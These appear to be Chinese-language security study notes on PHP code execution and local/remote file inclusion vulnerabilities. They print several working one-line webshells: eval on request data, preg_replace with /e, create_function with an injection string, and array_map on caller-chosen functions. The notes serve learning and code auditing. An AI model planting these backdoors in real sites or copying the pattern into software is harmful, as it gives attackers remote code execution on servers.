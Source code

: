 # 代码执行漏洞

代码执行漏洞原理：

用户输入的数据被当作后端代码执行

`<?php @eval($_REQUEST[8])?>` 其实一句话木马的本质就是一个代码执行漏洞。用户输入的数据被当作代码进行执行。

RCE远程命令或者代码执行。现在因为RCE这个词滥用，RCE的范围比较广，只要渗透的最终情况可以实现执行命令或者是代码都属于RCE，例如代码执行、文件包含、反序列化、命令执行，甚至是写文件Getshell都可以输入RCE

eval可以一次性执行多行代码


还有一个一句话木马

```PHP
<?php
echo preg_replace('/a/e',$_GET[8],'abc');
?>
```


正则表达式：

/a/i -> a是正则标识 i是修饰符(不区分大小写)

/a/e -> a是正则表达式，e是修饰符(要去替换的值可以用php的代码去执行)

一些一句话木马漏洞

多看看开发手则，说不定能找到开发不知道的漏洞


```PHP
<?php
$a = create_function('$id',$_REQUEST)
?>
```

> 使用：}phpinfo();/

```PHP
<?php
$a = [1, 2, 3, 4, 5];
$b = array_map($_REQUEST[1], $_REQUEST[2]);
?>
```

CMS安装的本质就是把原始的数据写入数据库

## 本地包含与远程包含

* 文件包含漏洞

攻击者利用包含的特性，加上应用本身对文件(包含)控制不严格，最终造成攻击者进行任意文件包含。（注：包含的文件会被当成脚本文件进行解析）。

一句话来说就是：文件包含并不属于漏洞，但是由于对包含进来的文件不可控，导致了文件包含漏洞的产生。

<br />

> 包含文件很有用，可以简化代码
文件包含包括本地包含和远程文件包含（需要allow_url_include = On）
本地文件包含LFI远程文件包含RFI

相同代码重复出现在不同文件中出现代码冗余，所以出现了文件包含函数。就是为了让代码更加高效，需要用到的部分代码会去调用，且被包含的文件会被当作php代码执行，忽略后缀本身。

* 文件包含的函数

> `include`PHP运行到include然后去调用被包含的文件执行，如果包含文件不存在、报错也会继续向下执行。

<br />

> `require`PHP在运行之前，就先去把被包含的文件的内容进行提取出来然后整合成一个新的PHP一起执行。如果包含的文件不存在，报错，就不会往下执行了

在代码审计一个代码的时候，可以使用代码审计软件进行快速审计关键词

当然在时间充足的情况下通读全文是最好的选择

